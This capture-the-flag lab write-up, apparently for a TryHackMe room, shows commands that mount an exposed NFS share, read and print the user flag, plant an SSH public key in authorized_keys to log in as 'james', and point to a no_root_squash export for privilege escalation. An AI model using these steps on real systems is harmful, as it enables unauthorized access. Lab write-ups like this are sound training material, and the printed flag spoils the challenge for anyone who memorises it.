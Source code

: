 As you can see it is open to us.

## User Flag

Now let's mount the share and read the user flag:
~~~
$ mkdir nfs         
                                                                                                                      
$ sudo mount -t nfs 127.0.0.1: nfs               
[sudo] password for user: 
                                                                                                                      
$ cd nfs                        
                                                                                                                      
$ ls -la
total 20
drwx------ 3 user user  112 Nov 17  2020 .
drwxr-xr-x 3 user user 4096 Oct 20 06:16 ..
lrwxrwxrwx 1 root root    9 Nov  8  2020 .bash_history -> /dev/null
-rw-r--r-- 1 user user   18 Nov  8  2019 .bash_logout
-rw-r--r-- 1 user user  141 Nov  8  2019 .bash_profile
-rw-r--r-- 1 user user  312 Nov  8  2019 .bashrc
drwx------ 2 user user   61 Nov  7  2020 .ssh
-rw------- 1 user user   38 Nov 17  2020 user.flag
                                                                                                                      
$ cat user.flag   
thm{3693fc86661faa21f16ac9508a43e1ae}
~~~

User flag: `thm{3693fc86661faa21f16ac9508a43e1ae}`

# Root Flag

Now we need to gain root access, in order to obtain the root flag. First, add your `id_rsa.pub` to `authorized_keys` and then connect to SSH as `james`:

In the nfs mounted directory:
~~~
$ cp ~/.ssh/id_rsa.pub .ssh/authorized_keys
~~~

~~~
$ ssh james@$IP        
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145
[james@localhost ~]$
~~~

## Privilege Escalation

Now we can use what we have found earlier in linpeas result:
~~~
╔══════════╣ NFS exports?
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
~~~
